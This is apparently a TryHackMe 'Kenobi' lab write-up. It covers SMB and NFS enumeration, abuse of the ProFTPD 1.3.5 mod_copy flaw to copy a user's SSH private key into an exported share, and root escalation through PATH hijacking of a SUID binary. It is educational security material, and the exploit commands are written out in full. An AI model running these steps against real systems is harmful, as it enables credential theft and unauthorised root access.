










# TryHackMe - Kenobi

## Overview

**Room:** Kenobi  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Focus:** Nmap Enumeration, SMB Enumeration, NFS Enumeration, ProFTPD Exploitation, SSH Key Disclosure, SUID Enumeration, PATH Manipulation, Privilege Escalation

---

## Attack Path

```text
The compromise followed this chain:

Nmap Service Enumeration
            ↓
Enumerate SMB Shares and Retrieve log.txt
            ↓
Identify ProFTPD 1.3.5 and NFS Export /var
            ↓
Exploit ProFTPD mod_copy to Copy Kenobi's SSH Private Key
            ↓
Retrieve the Private Key Through the NFS Share
            ↓
SSH Access as kenobi
            ↓
Enumerate SUID Binaries
            ↓
Identify /usr/bin/menu
            ↓
Exploit PATH Manipulation
            ↓
Obtain Root Access
            ↓
Read the Root Flag
```

---

## 1. Samba and Network Enumeration

### 1.1. Initial SMB Enumeration

The first objective was to identify the available SMB shares and determine whether any files could be accessed without authentication.

SMB commonly uses TCP ports `139` and `445`. Port 139 is associated with NetBIOS session services, while port 445 provides direct-hosted SMB. I began by scanning both ports and running Nmap's SMB enumeration scripts:

```bash
nmap -p 139,445 --script=smb-enum-shares.nse,smb-enum-users.nse <TARGET_IP>
```

This scan was intended to identify available shares and potentially discover usernames exposed through SMB.


The enumeration identified three shares:

```text
print$
anonymous
IPC$
```

The `print$` share is commonly associated with printer drivers, `IPC$` supports inter-process communication, and `anonymous` was the share worth investigating first because it appeared to provide access to shared files.



### 1.2. Listing Shares with smbclient

To verify the discovered shares and check whether anonymous access was possible, I used `smbclient`.

First, I listed the shares available on port 445:

```bash
smbclient -L //<TARGET_IP>/ -N
```

The options used were:

- `-L` — List available shares.
- `-N` — Attempt the connection without prompting for a password.

I then connected directly to the `anonymous` share:

```bash
smbclient //<TARGET_IP>/anonymous -N
```



Using anonymous access allowed me to investigate the share without first obtaining a username or password.

### 1.3. Retrieving `log.txt`

Inside the anonymous share, I found a file named `log.txt`. I downloaded it using the SMB client's `get` command:

```bash
get log.txt
```



After returning to my local terminal, I read the downloaded file:

```bash
cat log.txt
```



The log contained two important pieces of information:

- Information generated when Kenobi's SSH key was created.
- Information about the ProFTPD server running on the target.

This was a useful discovery because it connected the SMB enumeration stage to the next two services I needed to investigate: FTP and SSH.

### Finding

The SMB server exposed three shares, including an anonymously accessible share containing `log.txt`. The file provided useful context about Kenobi's SSH key and the ProFTPD service.

### Vulnerability

**Anonymous SMB Access and Information Disclosure**

The anonymous share allowed unauthenticated users to retrieve files. Exposing operational logs can disclose usernames, service details, file paths, and other information that helps an attacker plan further attacks.

---

## 2. NFS Enumeration

### 2.1. Identifying the NFS Service

The broader Nmap enumeration also identified `rpcbind` on TCP port `111`. This service is used by ONC RPC applications to locate RPC services and can indicate the presence of services such as NFS.

I investigated the service using Nmap's NFS enumeration scripts:

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <TARGET_IP>
```



I also queried the available NFS exports with:

```bash
showmount -e <TARGET_IP>
```



The enumeration identified the following exported directory:

```text
/var
```

This was significant because an NFS export can make files on the target accessible through a mounted filesystem, depending on the export configuration and permissions.

I now had a possible way to access files that could be copied into `/var`, even if I could not directly read their original locations through SMB.


### Finding

The target exposed the `/var` directory through NFS.

### Vulnerability

**Exposed NFS Export**

An NFS export can expose files to remote clients if access controls are too permissive. In this attack, the export later provided a way to retrieve a private SSH key copied into an accessible directory.

---

## 3. Gaining Initial Access Through ProFTPD

### 3.1. Identifying the FTP Server Version

The SMB log had already indicated that ProFTPD was running, so I investigated the FTP service to determine its exact version.

I connected to TCP port 21 using Netcat:

```bash
nc <TARGET_IP> 21
```

The service returned the following banner:

```text
ProFTPD 1.3.5
```

Knowing the version allowed me to search for publicly documented vulnerabilities associated with that release.

**Screenshot:** `screenshots/04-proftpd-banner.png`

### 3.2. Searching for Known Vulnerabilities

I used SearchSploit to look for known ProFTPD 1.3.5 exploits:

```bash
searchsploit proftpd 1.3.5
```



The results included:

```text
ProFTPd 1.3.5 - 'mod_copy' Command Execution  | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Exe | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Exe | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                    | linux/remote/36742.txt
```

The `mod_copy` entries were particularly relevant. The vulnerable module supports the FTP commands `SITE CPFR` and `SITE CPTO`, which can be used to specify a source file and a destination file for copying.

The important insight was that this flaw could allow a file to be copied on the server without first obtaining a normal authenticated shell. Rather than immediately attempting a more complex exploit, I looked for a sensitive file that could be copied and retrieved through the NFS export I had already discovered.


### 3.3. Copying Kenobi's SSH Private Key

I reconnected to the FTP service:

```bash
nc <TARGET_IP> 21
```
I then issued the following FTP commands:

```text
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

The commands instructed the vulnerable service to copy Kenobi's SSH private key from its original location into `/var/tmp/id_rsa`.

This was the critical link between the ProFTPD and NFS findings:

1. ProFTPD's `mod_copy` functionality provided a way to copy the private key.
2. The NFS export exposed `/var`.
3. The copied key was placed under `/var/tmp`, which was within the exported directory tree.
4. I could then retrieve the key through the mounted NFS share.

The exact success of each copy operation should be confirmed from the FTP server's response.



### 3.4. Mounting the NFS Export and Retrieving the Key

I created a local mount point:

```bash
mkdir /mnt/kenobiNFS
```

I mounted the target's exported `/var` directory:

```bash
sudo mount -t nfs <TARGET_IP>:/var /mnt/kenobiNFS
```

Because `/var/tmp/id_rsa` was within the exported directory tree, the copied file was available through the mount at:

```text
/mnt/kenobiNFS/tmp/id_rsa
```

I copied the key into my home directory and restricted its permissions so that SSH would accept it:

```bash
cp /mnt/kenobiNFS/tmp/id_rsa ~/id_rsa
chmod 600 ~/id_rsa
```

The restrictive permissions ensure that the private key is readable only by its owner.


### Finding

The vulnerable ProFTPD service could be used to copy Kenobi's SSH private key into a location accessible through NFS.

### Vulnerability

**ProFTPD 1.3.5 mod_copy File-Copy Vulnerability**

The exposed `mod_copy` functionality allowed the source and destination of a server-side file copy to be specified through FTP commands. Combined with the exposed NFS directory, this enabled retrieval of a sensitive private key and provided a path to authenticated SSH access.

---

## 4. SSH Access as Kenobi

With the private key retrieved, I attempted to authenticate as Kenobi over SSH:

```bash
ssh -i ~/id_rsa kenobi@<TARGET_IP>
```

The `-i` option specifies the private key file to use for authentication.

This provided a way to obtain a shell as the `kenobi` user without needing to crack a password. The initial-access stage was therefore complete, and the next objective was to identify whether the account could escalate its privileges.

I navigated to the /home/kenobi/user.txt file to retreive the first flag:

```bash
cat /home/kenobi/user.txt
```


### Finding

The exposed private key provided an authentication path to the target as the `kenobi` user.

### Security implication

SSH private keys are authentication secrets. If an attacker can obtain a user's private key and the corresponding account accepts it, the attacker may gain access as that user.

---

## 5. Privilege Escalation Through PATH Manipulation

### 5.1. Enumerating SUID Binaries

After obtaining an SSH shell, I began investigating the target for privilege-escalation opportunities.

One useful starting point is to identify SUID binaries. The SUID permission allows a program to execute with the privileges of its file owner, which can be root. An incorrectly implemented SUID program may therefore expose a route to elevated privileges.

I ran:

```bash
find / -perm -u=s -type f 2>/dev/null
```

The command searches the filesystem for regular files with the SUID bit set. Redirecting standard error to `/dev/null` suppresses permission-denied messages.

Among the results, I identified an unusual custom binary:

```text
/usr/bin/menu
```

Because this was not a standard utility in the usual sense, I decided to inspect its behavior before attempting to exploit it.


### 5.2. Inspecting the Menu Binary

I executed the binary to observe its available options:

```bash
/usr/bin/menu
```

The menu presented several choices that invoked system utilities. To understand how those operations were implemented, I inspected the binary's embedded strings:

```bash
strings /usr/bin/menu
```

The output indicated that the program invoked commands such as `curl` without specifying their absolute paths.

For example, a command that calls:

```text
curl
```

is different from one that calls:

```text
/usr/bin/curl
```

When a program invokes `curl` without an absolute path, the shell or command-execution environment may search the directories listed in the `PATH` environment variable to find the executable.

This became the key privilege-escalation opportunity. If the SUID program ran with elevated privileges and used a controllable `PATH`, I could potentially make it execute a file I controlled instead of the legitimate utility.

### Finding

The SUID binary `/usr/bin/menu` invoked external utilities without using absolute paths, creating a potential PATH-manipulation opportunity.

### Vulnerability

**Unsafe Command Execution in a SUID Binary**

A privileged program that executes external commands using relative command names may be vulnerable to PATH manipulation. If an attacker can influence command resolution, the program may execute an attacker-controlled executable with elevated privileges.

---

## 6. Exploiting PATH Manipulation

### 6.1. Creating a Replacement Command

I moved to `/tmp`, a directory where the current user could create files:

```bash
cd /tmp
```

I then created a file named `curl` containing a shell invocation:

```bash
echo "/bin/sh" > curl
chmod +x curl
```

This created an executable file named `curl`. It was intended to be selected instead of the legitimate curl binary when the menu program invoked the command by name.

### 6.2. Modifying the PATH Environment Variable

Next, I placed `/tmp` at the beginning of the current `PATH`:

```bash
export PATH=/tmp:$PATH
```

The `PATH` variable is an ordered list of directories searched when a command is invoked without an absolute path. By putting `/tmp` first, command lookup would check that directory before the normal system directories.

If `/usr/bin/menu` invoked `curl` by name and inherited this environment, it could resolve the name to `/tmp/curl` rather than the legitimate executable.

This behavior is why privileged programs should use absolute paths for external commands and avoid trusting user-controlled environment variables.

### 6.3. Triggering the Vulnerable Menu Option

I ran the menu binary again:

```bash
/usr/bin/menu
```

I selected the menu option that triggered the `curl` command.

Because `/tmp` was at the front of `PATH`, the program could execute the replacement file instead of the legitimate utility. In the intended exploit path, the replacement shell was launched with the privileges inherited from the vulnerable SUID program.

**Important verification:** A shell launched this way does not automatically guarantee a root shell on every system. The result depends on the binary's permissions, execution behavior, shell handling of effective IDs, and whether the privileged program actually inherits the modified environment. Confirm the resulting privileges directly.

### 6.4. Verifying Root Access and Retrieving the Flag

I checked the current identity:

```bash
whoami
```

If the exploit succeeded, the output should be:

```text
root
```

I then located and read the root flag using the appropriate file path discovered on the target. For example, to inspect common root-home files:

```bash
ls -la /root
```

Once the flag file was identified, I displayed its contents:

```bash
cat /root/root.txt
```

The actual flag was not included in the supplied notes, so it should be copied from the terminal output into the final result section.



### Finding

The custom SUID menu binary invoked an external utility by name. By placing a controlled executable earlier in `PATH` and triggering the relevant menu option, I attempted to redirect command execution and obtain elevated privileges.

### Vulnerability

**PATH Manipulation in a Privileged Program**

The menu binary relied on command lookup through `PATH` instead of invoking the intended utility through an absolute path. In a privileged execution context, this can allow a user-controlled executable to be selected and run with elevated privileges.

Mitigations include using absolute paths for external commands, sanitizing environment variables, dropping unnecessary privileges, and avoiding SUID permissions on custom programs that execute external utilities.

---

## Final Results

| Stage | Result |
|---|---|
| SMB enumeration | Three shares: `print$`, `anonymous`, `IPC$` |
| NFS enumeration | Exported directory: `/var` |
| FTP service | ProFTPD 1.3.5 |
| Initial access | SSH as `kenobi` using the retrieved private key |
| Privilege-escalation target | `/usr/bin/menu` |
| Privilege-escalation method | PATH manipulation |
| Final flag | `[INSERT ROOT FLAG]` |

---

## Attack Chain Summary

The complete attack path followed during the Kenobi room was:

```text
Enumerate SMB and retrieve log.txt
                ↓
Identify ProFTPD 1.3.5 and the NFS export /var
                ↓
Use mod_copy to copy Kenobi's private SSH key
                ↓
Retrieve the key through the mounted NFS share
                ↓
SSH into the target as kenobi
                ↓
Enumerate SUID binaries
                ↓
Identify /usr/bin/menu and its relative command execution
                ↓
Manipulate PATH to redirect curl execution
                ↓
Verify elevated privileges
                ↓
Read the root flag
```

---

## Key Vulnerabilities

| Vulnerability | Impact |
|---|---|
| Anonymous SMB share | Exposed operational log information |
| Exposed NFS export | Made files under `/var` remotely accessible |
| ProFTPD 1.3.5 `mod_copy` flaw | Enabled copying a sensitive SSH private key |
| SSH private key exposure | Enabled authentication as `kenobi` |
| SUID binary invoking commands without absolute paths | Created a potential PATH-based privilege-escalation route |

---

## Lessons Learned

This room demonstrated how several individually exposed services can combine into a complete compromise. SMB enumeration revealed a log file that pointed toward the FTP service and Kenobi's SSH key. NFS enumeration then identified an exported directory that could be used to retrieve a file copied into that location. The ProFTPD `mod_copy` flaw connected these discoveries and enabled SSH access without needing to crack a password.

Once access as Kenobi was established, SUID enumeration revealed a custom binary worth investigating. Inspecting the binary's strings showed that it invoked external utilities without absolute paths. This created an opportunity to influence command resolution through the `PATH` environment variable.

The central lesson is to connect findings across services rather than examine each service in isolation. A file-copy flaw may become much more serious when combined with an exposed network share, while a small implementation mistake in a SUID program can become a privilege-escalation path. At each stage, confirm the result through command output instead of assuming that an identified weakness automatically guarantees successful exploitation.
